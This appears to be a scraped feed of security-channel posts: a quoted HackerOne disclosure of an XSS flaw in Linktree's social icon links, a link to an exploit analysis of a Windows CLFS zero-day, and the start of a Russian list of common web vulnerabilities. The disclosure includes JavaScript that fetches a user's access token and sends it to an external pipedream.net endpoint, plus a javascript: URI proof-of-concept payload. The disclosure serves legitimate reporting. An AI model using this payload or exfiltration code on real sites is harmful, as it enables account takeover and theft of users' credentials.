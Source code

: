 <table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1698652?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1698652?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
XSS in SocialIcon Link There was no validation of the url provided for the SocialIcon Link , which allowed to include javascript uri . As the cookies were marked as httponly , I couldn't steal them directly via the xss so instead I found an endpoint which was leaking the accessToken used for authentication. js await fetch(&quot;https://linktr.ee/api/token&quot;, {     &quot;credentials&quot;: &quot;include&quot;,     &quot;method&quot;: &quot;GET&quot; }) .then((response) &#61;&gt; response.json()) .then((responseJson) &#61;&gt; {     fetch(&quot;https://en2celr7rewbul.m.pipedream.net/?token&#61;&quot;+responseJson[&quot;accessToken&quot;]); }) Final POC: js javascript://https://amazon.com/shop/x%0Aeval(\&quot;(async()&#61;&gt;{await+fetch('https://linktr.ee/api/token').then((response)&#61;&gt;response.json()).then((responseJson)&#61;&gt;{alert(responseJson['accessToken']);})})()\&quot;) POC in action:...
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2022-10-31`

<blockquote>
/ Technical Analysis of Windows CLFS Zero-Day Vulnerability CVE-2022-37969 - Part 2: Exploit Analysis

https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis

P.S. Thx @novitoll for the link ✌️
</blockquote>

<table><tr><td><b>→</b><a href="https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis">
https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis
</a>
<blockquote>
Technical Analysis of Windows CLFS Zero-Day Vulnerability CVE-2022-37969 - Part 2: Exploit Analysis
</blockquote>
</td></tr></table>

---

# epsilon_h
`2022-10-31`

<blockquote>
🔍 Какие уязвимости чаще всего встречаются на сайтах? 

💉 1. SQL-инъекции (SQL-injection)
